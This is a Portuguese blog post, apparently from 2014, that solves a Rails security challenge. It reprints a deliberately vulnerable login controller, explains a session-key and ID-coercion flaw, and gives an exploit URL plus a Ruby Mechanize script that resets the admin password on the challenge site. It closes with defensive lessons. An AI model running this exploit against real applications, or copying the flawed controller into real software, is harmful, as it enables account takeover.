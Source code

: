 ```yaml
---
title: "[Small Bite] Session Injection Challenge"
date: '2014-08-28T12:00:00-03:00'
slug: small-bite-session-injection-challenge
tags:
- metasploit
- security
draft: false
---
```


Eu expliquei rapidamente sobre Metasploit no [artigo anterior](http://www.akitaonrails.com/2014/08/27/small-bite-brincando-com-metasploit), e sobre o desafio do [@joernchen](https://gist.github.com/joernchen). Se você ainda não resolveu o desafio, talvez queira deixar pra ler este artigo depois!

**SPOILER ALERT**

Mas se abriu até aqui no artigo é porque quer saber o que é o problema. O @joernchen [publicou exatamente o seguinte código](https://gist.github.com/joernchen/9dfa57017b4732c04bcc):

```ruby
# Try to become "admin" on http://gettheadmin.herokuapp.com/ 
# Vector borrowed from real-world code ;)
 
 
# config/routes.rb:
 
  root 'login#login'
  post 'login' => 'login#login'
  get 'reset/:token' => 'login#password_reset'
 
# app/controllers/login_controller.rb
 
class LoginController < ApplicationController
  def login
    if request.post?
      user = User.where(login: params[:login]).first
      if !user.nil?
        if params[:password] == user.password
           render :text => "censored"
        end
        render :text => "Wrong Password"
        return
      end
    else
      render :template => "login/form"
    end
  end
  def password_reset
    @user = User.where(token: params[:token]).first
    if @user
      session[params[:token]] = @user.id
    else
      user_id = session[params[:token]]
      @user = User.find(user_id) if user_id
    end
    if !@user
      render :text => "no way!"
      return
    elsif params[:password] && @user && params[:password].length > 6
      @user.password = params[:password]
        if @user.save
          render :text => "password changed ;)"
          return
        end
    end
    render :text => "error saving password!"
  end
 
end
```

Basicamente um trecho do arquivo de <tt>routes.rb</tt> e o <tt>login_controller.rb</tt>. Assuma que também tem um form que poderia ser algo assim:

```html
<%= form_tag '/login', method: :post do %>
  <%= text_field_tag 'login' %>
  <%= password_field_tag 'password' %>
  <%= submit_tag 'login' %>
<% end %>
```

E um model chamado <tt>User</tt> que poderia ter a seguinte migration:

```ruby
class CreateUsers < ActiveRecord::Migration
  def change
    create_table :users do |t|
      t.string :token
      t.string :login
      t.string :password

      t.timestamps
    end
  end
end
```

E, finalmente, um seed que poderia ter o seguinte:

```
User.create token: 'qualquercoisa', login: 'admin', password: 'qualquercoisa'
```

Primeiro entenda o que o controller faz:

* tem uma action simples de <tt>login</tt> que valida o POST de usuário e senha e renderiza o form de login.
* tem uma action de <tt>reset_password</tt> que atende a rota <tt>reset/:token</tt>.

Quando o form é renderizado, ele gera um HTML assim:

```html
<!DOCTYPE html>
<html>
<head>
  <title>Gettheadmin</title>
  <link data-turbolinks-track="true" href="/assets/application-9cc0575249625b8d8648563841072913.css" media="all" rel="stylesheet" />
  <script data-turbolinks-track="true" src="/assets/application-baf6c4c3436bbd5accc1b87ff9b9eabe.js"></script>
  <meta content="authenticity_token" name="csrf-param" />
<meta content="857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=" name="csrf-token" />
</head>
<body>

<form accept-charset="UTF-8" action="/login" method="post"><div style="display:none"><input name="utf8" type="hidden" value="&#x2713;" /><input name="authenticity_token" type="hidden" value="857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=" /></div>
  <input id="login" name="login" type="text" />
  <input id="password" name="password" type="password" />
  <input name="commit" type="submit" value="login" />
</form>

</body>
</html>
```

O importante: o token CSRF na tag de meta. Ele é diferente toda vez que você puxa o formulário e serve para evitar [Cross Site Request Forgery](http://guides.rubyonrails.org/security.html#cross-site-request-forgery-csrf). Mas tem um detalhe importante: quando a session é inicializada ele sempre vai ter pelo menos duas chave-valor: uma que é a "session_id" e outra com a chave "_csrf_token" com o valor que aparece no HTML justamente para fazer a checagem.

E a parte que é o buraco no controller é este:

```ruby
user_id = session[params[:token]]
@user = User.find(user_id) if user_id
```

Se o <tt>params[:token]</tt> for "_csrf_token", o equivalente ficaria assim:

```ruby
@user = User.find(session['_csrf_token'])
```

Agora, sabemos que o <tt>User.create</tt> inicial vai criar um admin com o ID que será o inteiro "1". O método <tt>#find</tt> aceita não só números como strings (para o caso, por exemplo, onde você cria uma renderização alternativa de ID para fazer URLs bonitas como no Wordpress onde ficaria "/1-admin" em vez de "/1"). 

Quando você faz:

```ruby
"1abcd".to_i # => 1
```

Note que ele ignora o que não é string e devolve o inteiro 1.

Portanto, basta dar reload no site até o "_csrf_token" começar com "1" seguindo de letras. Aí ele vai fazer <tt>User.find("1abcd")</tt> que é o mesmo que <tt>User.find(1)</tt> e pronto! Conseguimos o usuário. E para piorar, o código do controller ainda faz isso em seguinte:

```ruby
if params[:password] && @user && params[:password].length > 6
  @user.password = params[:password]
    if @user.save
      render :text => "password changed ;)"
      return
    end
end
```

Ou seja, ele grava a nova senha que você passar como parâmetro. Portanto a URL para exploit é:

```
http://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567
```

E para automatizar o exploit, fiz este pequeno script:

```ruby
require 'rubygems'
require 'mechanize'

100.times do
  agent = Mechanize.new { |agent|
    agent.user_agent_alias = 'Mac Safari'
  }
  page = agent.get("http://gettheadmin.herokuapp.com/")
  token = page.at('meta[@name="csrf-token"]')[:content]
  puts token
  if token =~ /^1\w+/
    puts "TRYING EXPLOIT!!"
    doc = agent.get('http://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567')
    break if doc.content =~ /password changed/
  end
end
```

Quando o script parar, a senha mudou pra "1234567", agora basta fazer login com o usuário "admin" e senha "1234567" e pronto, você está dentro!

E eu coloquei 100 vezes, mas muito antes disso já vai parar porque não demora muito pra um "_csrf_token" que começa com "1".

![Exploit funciona](https://akitaonrails.s3.amazonaws.com/assets/image_asset/image/469/pasted_image_at_2014_08_27_11_38_am.png)

Lições aprendidas:

* A session tem valores por padrão! Nunca busque chaves na session baseado diretamente num parâmetro de URL. Aliás, **nunca** confie em parâmetros de URL

* Cuidado com o método <tt>#find</tt> do ActiveRecord por causa da conversão implícita de string para integer.

* Use uma biblioteca que já cuida desses detalhes como o [Devise](https://github.com/plataformatec/devise)

Assista aos screencasts do RubyTapas que falam justamente sobre conversões de strings:

* [206. Coersion](http://www.rubytapas.com/episodes/206-Coercion)
* [207. Conversion Function](http://www.rubytapas.com/episodes/207-Conversion-Function)
* [208. Lenient Conversions](http://www.rubytapas.com/episodes/208-Lenient-Conversions)
* [209. Explicit Conversion](http://www.rubytapas.com/episodes/209-Explicit-Conversion)
* [210. Implicit Conversion](http://www.rubytapas.com/episodes/210-Implicit-Conversion)

Alguém conseguiu explorar e mudar a senha de admin de outra forma diferente desta? Não deixe de comentar abaixo.
